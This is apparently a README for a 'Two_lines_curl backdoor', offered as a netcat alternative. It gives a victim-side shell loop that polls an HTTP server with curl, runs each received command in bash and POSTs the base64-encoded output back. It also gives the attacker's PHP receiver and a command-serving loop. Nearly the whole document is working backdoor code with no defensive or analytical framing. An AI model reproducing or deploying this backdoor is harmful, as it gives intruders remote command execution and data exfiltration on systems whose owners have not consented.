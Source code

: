 # Two_lines_curl backdoor

No netcat ? Try this !

## Victim session

### connect_back.sh
```sh
while true ; do sleep 1 ; cmd=$(curl -s 'http://127.0.0.1:3000/'|grep .) && ret=$(echo "$cmd"|bash|base64 -w0) && curl -s -X POST -d "d=$ret" "http://127.0.0.1:3000/get.php" ; done
```

## Attacker session

### get.php
```php
<?php file_put_contents("result.txt",$_POST["d"]); ?>
```

### server.sh
```sh
while true ; do printf "$ " ; printf "" > result.txt ; read cmd ; echo "$cmd" > index.html ; while true ; do grep -sq . result.txt && break ; done ; printf "" > index.html ; base64 -d result.txt ; done
```
